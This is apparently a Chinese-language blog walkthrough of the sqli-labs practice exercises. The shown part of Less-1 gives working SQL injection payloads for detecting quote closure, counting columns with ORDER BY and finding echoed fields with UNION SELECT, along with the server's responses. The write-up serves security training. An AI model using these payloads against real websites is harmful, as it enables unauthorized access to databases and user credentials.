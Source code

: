 ```yaml
---
title: SQL注入经典题库
description: 本文将所有sqli-labs题库中的题目做了简单讲解。
pubDate: 07 30 2025
draft: false
categories:

- 网络安全

tags:

- SQL注入
- Web安全
- Kaku

---
```


## Less-1

1、判断出为字符型注入，且为单引号闭合

```
?id=1' 
报错： You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1 
-->单引号未闭合导致语法错误。

?id=1 and 1=1
-->页面正常，‘and 1=1’被作为字符串处理

?id=1' --+
-->页面正常，确认为单引号闭合
```

2、确定列数为3

```
?id=1' order by 1,2,3 --+
-->正常

?id=1' order by 1,2,3,4 --+
-->Unknown column '4' in 'order clause'
```

3、判断回显位为2，3

```
?id=-1' union select 1,2,3 --+
--> Welcome    Dhakkan
    Your Login name:2
     Your Password:3
```
